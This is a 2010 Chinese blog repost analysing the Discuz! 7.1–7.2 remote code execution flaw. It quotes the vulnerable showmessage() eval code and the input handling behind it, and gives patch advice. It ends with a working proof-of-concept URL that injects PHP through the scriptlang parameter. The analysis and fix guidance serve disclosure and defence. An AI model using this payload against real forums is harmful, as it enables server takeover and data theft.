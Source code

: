 ```yaml
---
title: Discuz! 7.1-7.2 远程代码执行漏洞及补丁
description: 今天在XX群听说，/tags/Discuz!">Discuz!又爆了大漏洞——post/Discuz!-7.1-7.2-yuancheng-daima-zhixing-loudong.html">Discuz!7.1-7.2远程代码执行漏洞，很多/tags/Discuz!">DZ论坛都惨遭黑手，下面从网上转来一篇文章给大家看看，作者为oldjun。首先说一下，漏洞是t00ls核心群传出去的，xhming先去读的，然后我后来读的，读出来的都是代码执行，1月5日夜里11点多钟，在核心群的黑客们的要求下，xhming给了个poc，我给了个exp，确实发现的是同一个问题。截止夜里2点多种我下线，还只有t00ls核心群里几个人知道我给出的exp，可我怎么也想不到，经过半天时间，exp就满天飞了，而且确实出自昨天我的那个版本。
date: 2010-01-07 11:26:37
category: 漏洞信息
tags: ['Discuz!', '补丁', '漏洞信息', 'PoC']
post_id: 1044
alias: Discuz!-7.1-7.2-yuancheng-daima-zhixing-loudong
ViewNums: 3445
---
```


今天在XX群听说，[Discuz!](/tags/Discuz!)又爆了大漏洞——[**Discuz! 7.1-7.2 远程代码执行漏洞**](/blog/discuz%21-71-72-yuancheng-daima-zhixing-loudong)，很多[DZ论坛](/tags/Discuz!)都惨遭黑手，下面从网上转来一篇文章给大家看看，作者为[oldjun](http://www.oldjun.com)。

首先说一下，漏洞是t00ls核心群传出去的，xhming 先去读的，然后我后来读的，读出来的都是代码执行，1月5日夜里11点多钟，在核心群的黑客们的要求下，xhming给了个poc，我给了个exp，确实发现的是同一个问题。截止夜里2点多种我下线，还只有t00ls核心群里几个人知道我给出的exp，可我怎么也想不到，经过半天时间，exp就满天飞了， 而且确实出自昨天我的那个版本。

不难想象，exp流传的速度，A与B关系好，A发给B；B与C是好朋友，B发给C...总有人耐不住性子，泄露点风声，于是就人手一份。最受不了的是，竟然有些SB在群里拿来叫卖；实在不想说什么，要叫卖什么时候轮到你？人心不古，以后有的话还是自己藏着吧。

上午漏洞告诉了Saiy，[DZ](/tags/Discuz!)官方的补丁很快就出来了吧。

特别说明：产生漏洞的$scriptlang数组在安装插件后已经初始化，因此有安装插件的用户不受影响。

[Discuz! 7.1-7.2 远程代码执行漏洞](/blog/discuz%21-71-72-yuancheng-daima-zhixing-loudong)介绍：

[Discuz！新版本7.1与7.2版本](/blog/discuz%21-71-72-yuancheng-daima-zhixing-loudong)中的[showmessage函数](/blog/discuz%21-71-72-yuancheng-daima-zhixing-loudong)中eval中执行的参数未初始化，可以任意提交，从而可以执行任意PHP命令。

漏洞分析：

下面来分析下这个[远程代码执行漏洞](/blog/discuz%21-71-72-yuancheng-daima-zhixing-loudong)，这个问题真的很严重，可以直接写shell的：

**一、漏洞来自showmessage函数：**

function showmessage($message, $url_forward = '', $extra = '', $forwardtype = 0) {
extract($GLOBALS, EXTR_SKIP);//危险的用法，未初始化的变量可以直接带进函数，直接导致了问题产生
global $hookscriptmessage, $extrahead, $discuz_uid, $discuz_action, $debuginfo, $seccode, $seccodestatus, $fid, $tid, $charset, $show_message, $inajax, $_DCACHE, $advlist;
define('CACHE_FORBIDDEN', TRUE);
$hookscriptmessage = $show_message = $message;$messagehandle = 0;
$msgforward = unserialize($_DCACHE['settings']['msgforward']);
$refreshtime = intval($msgforward['refreshtime']);
$refreshtime = empty($forwardtype) ? $refreshtime : ($refreshtime ? $refreshtime : 3);
$msgforward['refreshtime'] = $refreshtime * 1000;
$url_forward = empty($url_forward) ? '' : (empty($_DCOOKIE['sid']) && $transsidstatus ? transsid($url_forward) : $url_forward);
$seccodecheck = $seccodestatus & 2;
if($_DCACHE['settings']['funcsiteid'] && $_DCACHE['settings']['funckey'] && $funcstatinfo && !IS_ROBOT) {
$statlogfile = DISCUZ_ROOT.'./forumdata/funcstat.log';
if($fp = @fopen($statlogfile, 'a')) {
@flock($fp, 2);
if(is_array($funcstatinfo)) {
$funcstatinfo = array_unique($funcstatinfo);
foreach($funcstatinfo as $funcinfo) {
fwrite($fp, funcstat_query($funcinfo, $message)."
");
}
} else {
fwrite($fp, funcstat_query($funcstatinfo, $message)."
");
}
fclose($fp);
$funcstatinfo = $GLOBALS['funcstatinfo'] = '';
}
}

if(!defined('STAT_DISABLED') && STAT_ID > 0 && !IS_ROBOT) {
write_statlog($message);
}

if($url_forward && (!empty($quickforward) || empty($inajax) && $msgforward['quick'] && $msgforward['messages'] && @in_array($message, $msgforward['messages']))) {
updatesession();
dheader("location: ".str_replace('&amp;', '&', $url_forward));
}
if(!empty($infloat)) {
if($extra) {
$messagehandle = $extra;
}
$extra = '';
}
if(in_array($extra, array('HALTED', 'NOPERM'))) {
$discuz_action = 254;
} else {
$discuz_action = 255;
}

include language('messages');

$vars = explode(':', $message);//只要含:就可以了
if(count($vars) == 2 && isset($scriptlang[$vars[0]][$vars[1]])) {//两个数字即可，用:分割
eval("$show_message = "".str_replace('"', ' "', $scriptlang[$vars[0]][$vars[1]])."";");//$scriptlang未初始化，可以自定义
} elseif(isset($language[$message])) {
$pre = $inajax ? 'ajax_' : '';
eval("$show_message = "".(isset($language[$pre.$message]) ? $language[$pre.$message] : $language[$message])."";");
unset($pre);
}

......
}

**二、DZ的全局机制导致了未初始化的参数可以任意提交：**

foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
foreach($$_request as $_key => $_value) {
$_key{0} != '_' && $$_key = daddslashes($_value);
}
}

**三、misc.php正好有个可以自定义message的点，其实也是未初始化：**

elseif($action == 'imme_binding' && $discuz_uid) {

if(isemail($id)) {
$msn = $db->result_first("SELECT msn FROM {$tablepre}memberfields WHERE uid='$discuz_uid'");
$msn = explode(" ", $msn);
$id = dhtmlspecialchars(substr($id, 0, strpos($id, '@')));
$msn = "$msn[0] $id";
$db->query("UPDATE {$tablepre}memberfields SET msn='$msn' WHERE uid='$discuz_uid'");
showmessage('msn_binding_succeed', 'memcp.php');
} else {
if($result == 'Declined') {
dheader("Location: memcp.php");
} else {
showmessage($response['result']);//$response没有初始化，可以自定义

}
}

}

**四、漏洞利用：**

showmessage函数里$vars = explode(':', $message);然后message可以自己控制，于是就很容易了，参数是两个自定义的数组。

**五、漏洞修复：**

1.有补丁的打补丁；
2.没有补丁可以暂时先注释引起漏洞的语句，或者对两个变量赋个值。
3.夜火补充：群里朋友提示，DZ后台可以直接打补丁了，未验证。

poc：

（应Saiy的要求，不发exp了！）注册一个用户登陆,然后提交
misc.php?action=imme_binding&response[result]=1:2&scriptlang[1][2]={${phpinfo()}}

